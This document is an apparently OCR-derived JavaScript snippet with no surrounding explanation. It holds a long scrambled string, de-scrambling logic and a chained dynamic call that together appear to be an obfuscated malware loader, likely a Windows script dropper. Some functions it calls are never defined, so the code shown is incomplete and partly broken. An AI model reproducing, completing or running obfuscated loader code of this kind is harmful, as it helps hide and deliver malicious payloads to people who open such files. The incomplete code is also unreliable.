 ```javascript
function kZ37(iy87, tS71, cl45) {

QO71 = tS71[iy87](cl45);

return QO71;

}

function nb5() {

FQ96[xj34](FQ96[KN79])(FQ96[KN79]);

}

function EO49(Fg50) {

AP9826 = 'fir/opc\\r\'Stu+W.m] s.5{lp5 ehD)epj1p\'[\\(-4+2=8\"2\\a=2?Z)2e+)2h\\0\'h) /t;,/l \":\\}xp@ et\"e\\tel+hgs4\\b\'4eu Y n,y{i\\+\'= \"T\\S\"E\\y@G+4\"\\\\\'y3((Y fn4=Oe4 xp,Seo yd.f4n6a3i8l..rsr3Wee4 )py{;lSy a(rWc(tre 8(f;6\\i\".) @s0;\\e\"t3n+x+dye0(YT7)4e,;4s2 +n(}\\o\"c]p@a\\s\"t\\e\"crr,ht.\\(\"6se\\8\")br){uW; s r\\=\"ev [ta3)ur4(r ygnfSn S if8rra5atl vSs= oe {t;S . y))}40( 30mi.2ofr d e=n(p=aWl=rra .8csh6eut.(tas/aMt(\' (\\4\\W=fd( ]{24-254[}6Y9)QyF/} g;;1,-)2 +\\2\'3foPfu=T2n3TocfH t;L)i)M2o3Xonfr( (e](\"v\"S+r\"dte\"9+S\"7\".+)\"2r \"L+{\"M\" +X\"rqS\"e+M\"t\"\\+\'\"us(\"r+t\"n\"c[ hetSajMt b{r O)i e9n0t6g2a9.0e5f1r r<C o2.3motfC(p heilairhrwc C;S6o W=d 2e3=o(f ;p)6(ae8srorlsCW.e) eIu{rnt t,)2(93ASO (de<l9i F7t5x,e5T1eDt0aje)r(C+. 231eQ0Cl;))i(;thi uwQ}. t)p;i;r0c S WF =)Q) 2995A6O5([sDt3sji]x E(e;lfi]FS.\\2\"18QmC5(o )fci(;.\")pom;td. 7-6W1d9S2n1cvaHr\\-\\i\"e+p)b2t-.4.(w]Q\"wru\"w+i\"\\e\"dtl,o(\"\\+\"\")Fel;ad\" +.\"}ijc \"4+}\"oe p.Setw\"l+w\"sewGe\"\\[\"2 1,Q{C\\=\"2 9lAWOp;S).\"ctdcrecjiblOpm-ettms.yeSsejlliaFe.ngenyiptwp(i.r2ctS2\"s(2tec2etj2b.O)ewt;awe rwC}.\\t\"p i[rjc SDW= 5= 5241+Q8C+;a\';\'Z=}r\'e)p)b(ufnox3I2l)y;qtrcogtmcaucr=tFsQn9o6c;';

qN252 = Fg50;

SK92 = "";

}

Li29 = "qylIx";

EO49(0);

TZ76(1);

ew84 = fW4(AP9826, qN252);

VX30();

function NW87() {

FQ96[xj34] = EO49[FQ96[qN252]];

}

NW87();

nb5();

```
